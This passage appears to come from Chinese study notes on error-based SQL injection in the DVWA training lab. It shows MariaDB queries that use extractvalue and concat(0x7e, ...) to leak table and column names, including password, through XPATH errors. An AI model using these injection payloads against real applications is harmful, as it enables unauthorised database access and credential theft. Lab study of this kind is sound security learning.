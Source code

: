 ```bash
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '~users'

MariaDB [dvwa]> select count(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users';
+--------------------+
| count(column_name) |
+--------------------+
|                  8 |
+--------------------+
1 row in set (0.002 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~user_id'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '~first_name'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 2,1)));
ERROR 1105 (HY000): XPATH syntax error: '~last_name'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 3,1)));
ERROR 1105 (HY000): XPATH syntax error: '~user'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 4,1)));
ERROR 1105 (HY000): XPATH syntax error: '~password'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 5,1)));
ERROR 1105 (HY000): XPATH syntax error: '~avatar'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 6,1)));
ERROR 1105 (HY000): XPATH syntax error: '~last_login'
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 7,1)));
ERROR 1105 (HY000): XPATH syntax error: '~failed_login'
```

​ 1）在 extractvalue 函数中，为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？

​   extractvalue（XML_document, xpath_string）

​   第一个参数：string格式，为XML文档对象的名称
